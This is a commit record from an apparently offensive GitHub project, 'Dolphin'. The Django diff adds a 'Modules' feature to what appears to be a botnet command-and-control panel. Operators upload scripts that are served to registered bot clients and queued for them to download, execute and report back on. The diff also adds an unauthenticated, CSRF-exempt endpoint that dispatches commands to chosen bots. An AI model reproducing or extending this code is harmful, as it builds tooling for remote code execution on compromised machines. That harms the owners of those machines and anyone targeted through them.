
After one commit to dovy2kas/Dolphin, a Django app: page /panel/modules/ in a window 1280 px wide. The commit adds this page. Run offline with Django 4.2, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
Added modules, the client will properly download the module and execute it, after that it will call back to the server. Made 'Select all' functional.

```diff
--- a/control/urls.py
+++ b/control/urls.py
@@ -1,10 +1,11 @@
 from django.urls import path
 from .views import register, get_command, post_result, send_command_to_clients
-
+from django.conf import settings
+from django.conf.urls.static import static
 
 urlpatterns = [
     path('register/', register),
     path('command/', get_command),
     path('result/', post_result),
     path('send_command/', send_command_to_clients),
-]
+] + static('modules/', document_root=settings.UPLOADED_SCRIPTS_DIR)
--- a/control/views.py
+++ b/control/views.py
@@ -60,7 +60,7 @@
         client.save()
 
         command = Command.objects.filter(bot_id=client.id, executed=0).values().first()
-        print(f"command: {command}")
+
         if command:
             return JsonResponse({
                 "command": command["command"],
--- /dev/null
+++ b/panel/templates/modules.html
@@ -0,0 +1,96 @@
+{% extends "base.html" %}
+
+{% block navbar %}
+    {% include "navbar.html" %}
+{% endblock %}
+
+{% block content %}
+
+<div class="flex flex-row justify-evenly items-start flex-nowrap gap-4 h-full min-h-full h-screen text-slate-100">
+    <div class="w-full h-1/2 m-4">
+        <div class="rounded-t bg-gray-50 dark:bg-slate-700 dark:border-gray-700 p-4">
+            <form id="module-form" method="post" action="{% url 'modules' %}" enctype="multipart/form-data">
+                {% csrf_token %}
+                <p class="mb-2">Module Name:</p>
+                <input type="text" name="name" class="w-full p-2 mb-4 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" placeholder="Enter module name" required>
+
+                <p class="mb-2">Description:</p>
+                <textarea name="description" rows="4" class="w-full p-2 mb-4 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" placeholder="Enter module description"></textarea>
+
+                <p class="mb-2">Required Arguments:</p>
+                <div id="arguments-container" class="mb-4">
+                    <div class="flex items-center mb-2">
+                        <input type="text" name="argument_name[]" class="w-1/2 p-2 mr-2 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" placeholder="Argument name" required>
+                        <select name="argument_type[]" class="w-1/2 p-2 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" required>
+                            <option value="string">String</option>
+                            <option value="integer">Integer</option>
+                            <option value="boolean">Boolean</option>
+                            <option value="float">Float</option>
+                        </select>
+                        <button type="button" class="remove-argument w-10 h-10 ml-2 text-white bg-red-600 hover:bg-red-700 rounded">X</button>
+                    </div>
+                </div>
+                <button type="button" id="add-argument" class="w-full mb-4 focus:outline-none text-white bg-blue-700 hover:bg-blue-800 focus:ring-4 focus:ring-blue-300 font-medium rounded text-sm px-5 py-2.5 dark:bg-blue-600 dark:hover:bg-blue-700 dark:focus:ring-blue-900">Add Argument</button>
+
+                <p class="mb-2">Upload Script File:</p>
+                <input type="file" name="script_file" class="w-full p-2 mb-4 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" required>
+
+                <button type="submit" class="w-full focus:outline-none text-white bg-red-700 hover:bg-red-800 focus:ring-4 focus:ring-red-300 font-medium rounded-b text-sm px-5 py-2.5 me-2 dark:bg-red-600 dark:hover:bg-red-700 dark:focus:ring-red-900">Upload Module</button>
+            </form>
+        </div>
+    </div>
+
+    <div class="w-full h-1/2 m-4">
+        <div class="w-full h-full bg-gray-50 dark:bg-slate-700 dark:border-gray-700 p-4 overflow-auto rounded">
+            <h2 class="text-xl font-bold leading-tight tracking-tight md:text-2xl">Uploaded Modules</h2>
+            <ul>
+                {% for module in modules %}
+                    <div class="flex w-full bg-slate-400 mb-2 h-10 items-center">
+                        <p class="inline-block m-2">{{ module.name }}</p>
+                        <div class="inline-block h-full w-0.5 min-h-[1em] bg-neutral-100 dark:bg-white/10"></div>
+                        <p class="inline-block m-2">{{ module.description }}</p>
+                        <div class="inline-block h-full w-0.5 min-h-[1em] bg-neutral-100 dark:bg-white/10"></div>
+                        <p class="inline-block m-2">{{ module.created_at }}</p>
+                        <div class="inline-block h-full w-0.5 min-h-[1em] bg-neutral-100 dark:bg-white/10"></div>
+                        <div class="inline-block h-full ml-auto mr-2">
+                            <div class="flex h-full items-center">
+                                <p class="inline-block ml-2"><a href="{{ module.script_path }}" download>Download</a></p>
+                            </div>
+                        </div>
+                    </div>
+                {% endfor %}
+            </ul>
+        </div>
+    </div>
+</div>
+
+<script>
+    document.getElementById('add-argument').addEventListener('click', function () {
+        const container = document.getElementById('arguments-container');
+        const argumentDiv = document.createElement('div');
+        argumentDiv.classList.add('flex', 'items-center', 'mb-2');
+        argumentDiv.innerHTML = `
+            <input type="text" name="argument_name[]" class="w-1/2 p-2 mr-2 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" placeholder="Argument name" required>
+            <select name="argument_type[]" class="w-1/2 p-2 text-gray-900 bg-gray-100 border border-gray-300 rounded dark:bg-gray-700 dark:text-white dark:border-gray-600" required>
+                <option value="string">String</option>
+                <option value="integer">Integer</option>
+                <option value="boolean">Boolean</option>
+                <option value="float">Float</option>
+            </select>
+            <button type="button" class="remove-argument w-10 h-10 ml-2 text-white bg-red-600 hover:bg-red-700 rounded">X</button>
+        `;
+        container.appendChild(argumentDiv);
+
+        argumentDiv.querySelector('.remove-argument').addEventListener('click', function () {
+            argumentDiv.remove();
+        });
+    });
+
+    document.querySelectorAll('.remove-argument').forEach(button => {
+        button.addEventListener('click', function () {
+            button.parentElement.remove();
+        });
+    });
+</script>
+
+{% endblock %}
--- a/panel/templates/navbar.html
+++ b/panel/templates/navbar.html
@@ -20,6 +20,9 @@
             <a href="{% url 'payloads' %}" class="block py-2 px-3 md:p-0 text-slate-100 rounded-sm hover:bg-gray-100 md:hover:bg-transparent md:border-0 md:hover:text-amber-300 dark:text-slate-100 md:dark:hover:text-amber-300 dark:hover:bg-gray-700 dark:hover:text-slate-100 md:dark:hover:bg-transparent">Payloads</a>
           </li>
           <li>
+            <a href="{% url 'modules' %}" class="block py-2 px-3 md:p-0 text-slate-100 rounded-sm hover:bg-gray-100 md:hover:bg-transparent md:border-0 md:hover:text-amber-300 dark:text-slate-100 md:dark:hover:text-amber-300 dark:hover:bg-gray-700 dark:hover:text-slate-100 md:dark:hover:bg-transparent">Modules</a>
+          </li>
+          <li>
             <a href="#" class="block py-2 px-3 md:p-0 text-slate-100 rounded-sm hover:bg-gray-100 md:hover:bg-transparent md:border-0 md:hover:text-amber-300 dark:text-slate-100 md:dark:hover:text-amber-300 dark:hover:bg-gray-700 dark:hover:text-slate-100 md:dark:hover:bg-transparent">Files</a>
           </li>
           {% if user.is_authenticated %}
--- a/panel/urls.py
+++ b/panel/urls.py
@@ -5,6 +5,8 @@
 urlpatterns = [
     path("", views.panel, name="panel"),
     path("payloads/", views.payloads, name="payloads"),
+    path("modules/", views.modules, name="modules"),
     path("login/", views.login_view, name="login"),
     path("logout/", views.logout_view, name="logout"),
+    path('send_command_to_clients/', views.send_command_to_clients, name='send_command_to_clients'),
 ]
--- a/panel/views.py
+++ b/panel/views.py
@@ -1,21 +1,26 @@
 from django.http import HttpResponse, JsonResponse
 from django.template import loader
-from django.shortcuts import render, redirect
+from django.shortcuts import render, redirect, get_object_or_404
 from django.contrib.auth import authenticate, login, logout
+from django.core.files.storage import FileSystemStorage
 from django.contrib.auth.decorators import login_required
 from django.contrib import messages
-from control.models import Client, Payload
+from control.models import Client, Payload, Module, Command
 import subprocess
 import os
 import time
+from django.views.decorators.csrf import csrf_exempt
+import json
 
 
 @login_required
 def panel(request):
     clients = Client.objects.all()
+    modules = Module.objects.all()
     template = loader.get_template('panel.html')
     context = {
         'clients': clients,
+        'modules': modules,
     }
     return HttpResponse(template.render(context, request))
 
@@ -77,6 +82,62 @@
     payloads = Payload.objects.all()
     return render(request, 'payloads.html', {'payloads': payloads})
 
+@login_required
+def modules(request):
+    if request.method == 'POST':
+        name = request.POST.get('name')
+        description = request.POST.get('description')
+        argument_names = request.POST.getlist('argument_name[]')
+        argument_types = request.POST.getlist('argument_type[]')
+        script_file = request.FILES['script_file']
+
+        required_arguments = {name: arg_type for name, arg_type in zip(argument_names, argument_types)}
+
+        fs = FileSystemStorage(location='uploaded_scripts/')
+        filename = fs.save(script_file.name, script_file)
+        script_path = fs.url(filename)
+
+        module = Module(
+            name=name,
+            description=description,
+            required_arguments=required_arguments,
+            script_path=script_path
+        )
+        module.save()
+
+        return redirect('modules')
+
+    modules = Module.objects.all()
+    return render(request, 'modules.html', {'modules': modules})
+
+@csrf_exempt
+def send_command_to_clients(request):
+    if request.method == 'POST':
+        try:
+            data = json.loads(request.body)
+            client_ids = data.get('clients', [])
+            module_id = data.get('module_id')
+            arguments = data.get('arguments', {})
+
+            if not client_ids or not module_id:
+                return JsonResponse({'error': 'Invalid input: Missing clients or module.'}, status=400)
+
+            module = get_object_or_404(Module, id=module_id)
+            selected_clients = Client.objects.filter(id__in=client_ids)
+
+            for client in selected_clients:
+                Command.objects.create(
+                    bot=client,
+                    command=module.name,
+                    payload_url=module.script_path,
+                    args=json.dumps(arguments)
+                )
+
+            return JsonResponse({'status': 'success'}, status=200)
+
+        except Exception as e:
+            return JsonResponse({'error': str(e)}, status=400)
+
 def login_view(request):
     if request.method == 'POST':
         username = request.POST['username']
```
Also changed, not shown: Dolphin/settings.py (+7 -0 lines), client/main.py (+30 -17 lines), control/models.py (+11 -1 lines), panel/templates/panel.html (+100 -13 lines), README.md, control/migrations/0006_module.py (added), 1 other file.
